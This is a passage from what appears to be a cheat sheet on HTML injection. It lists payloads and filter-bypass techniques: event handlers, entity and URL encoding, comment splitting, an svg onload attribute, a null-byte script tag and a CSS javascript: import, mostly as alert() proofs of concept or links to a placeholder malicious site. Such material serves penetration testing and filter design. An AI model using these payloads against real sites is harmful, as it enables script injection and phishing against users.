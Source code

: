 - **Event Handler Injection (Bypassing Restrictions):** This payload uses an event handler (`onclick`) to execute JavaScript when the user interacts with an element on the page. It bypasses some filters that may block `<script>` tags but allow event handlers.

```html
<div onclick="alert('Injected!')">Click me</div>
```

# Bypassing Defenses
Bypassing defenses against HTML Injection involves understanding and evading common security measures implemented in web applications. Attackers use various techniques to evade filters and security mechanisms.

## Encoding and Obfuscation

1. **HTML Entity Encoding:** Encode special characters using HTML entities to bypass filters that block certain HTML tags.

```
& lt;div & gt; Click & lt;a href=& quot;http://malicious-site.com & quot;& gt; here & lt;/a& gt; to win a prize!& lt;/div & gt;
```

2. **Hex/Unicode Encoding:** Use hexadecimal or Unicode encoding to represent characters.

```
%3Cdiv%3EClick%20%3Ca%20href%3D%22http%3A%2F%2Fmalicious-site.com%22%3Ehere%3C%2Fa%3E%20to%20win%20a%20prize!%3C%2Fdiv%3E
```

## Filter Bypass Techniques

1. **Comment Obfuscation:** Use HTML comments to break up payloads and bypass filters.

```
<di<!-- -->v>Click <a href="http://malicious-site.com">here</a> to win a prize!</di<!-- -->v>
```

2. **Attribute Manipulation:** Manipulate HTML attributes to inject payloads.

```
<svg onload="alert('HTML Injection')">
```

## Browser Inconsistencies

1. **Exploiting Browser Quirks:** Use inconsistencies in how different browsers parse HTML to bypass filters.

```
<scr\00ipt>alert('HTML Injection');</scr\00ipt>
```

2. **Mixed Contexts:** Combine different contexts, such as CSS and HTML, to evade filters.

```
<style>@import'javascript:alert(1)';</style>
```
